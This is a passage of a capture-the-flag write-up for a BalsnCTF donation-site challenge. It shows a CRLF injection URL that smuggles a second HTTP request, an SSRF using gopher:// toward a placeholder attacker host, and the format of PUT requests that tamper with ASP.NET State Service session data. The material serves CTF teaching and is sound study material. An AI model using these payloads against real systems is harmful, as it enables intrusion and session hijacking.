To access `geturl.php`, we have to use CRLF injection from step 1.

Inject a new request to nginx:

```
http://donate.support.balsnctf.com/Donate/Preview
?token=aaaa%0d%0aHost:+localhost%0d%0a%0d%0aPOST+/geturl.php+HTTP/1.1%0d%0aHost: proxy.support.balsnctf.com%0d%0aContent-Type:+application/x-www-form-urlencoded%0d%0aContent-Length:+37%0d%0a%0d%0aurl=gopher://your_ip:port/_gophertestGET+/+HTTP/1.1
&pdf=1
```

Then you can see that the request will look like:
```
GET /Donate/ReceiptDetail HTTP/1.1
Authorization: Bearer aaaa
Host: proxy.support.balsnctf.com

POST /geturl.php HTTP/1.1
Host: proxy.support.balsnctf.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

url=gopher://your_ip:port/_gophertestGET / HTTP/1.1
User-Agent: [redacted]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: zh-TW,en,*
Host: proxy.support.balsnctf.com
```

Now, we have a SSRF with Gopher protocal that can send request to any server.

### Step 3: Construct PUT request for ASP.NET State Service

You can check out the entry `System.Web.SessionState.OutOfProcSessionStateStore.GetItemExclusive()` to see how the request is actually generated.

A basic PUT request format for updating session data is like:
```
PUT <AppDomainAppId>(<SHA256 of AppDomainAppId>)%2f<SessionId> HTTP/1.1
Host: localhost
Timeout:20
Content-Length:<length of session data>
ExtraFlags:0
LockCookie:2

<session data>
```

There are some fields which we have to fill:

**\<AppDomainAppId>**: 
This value is usually dynamically generated by ASP.NET, but we can write custom code in Global.asax to set it. Of course, it already be written done in this challenge, the value can be modified by setting up in Web.config:
```
<add key="ApplicationName" value="/LM/W3SVC/DONATE/ROOT"/>
```
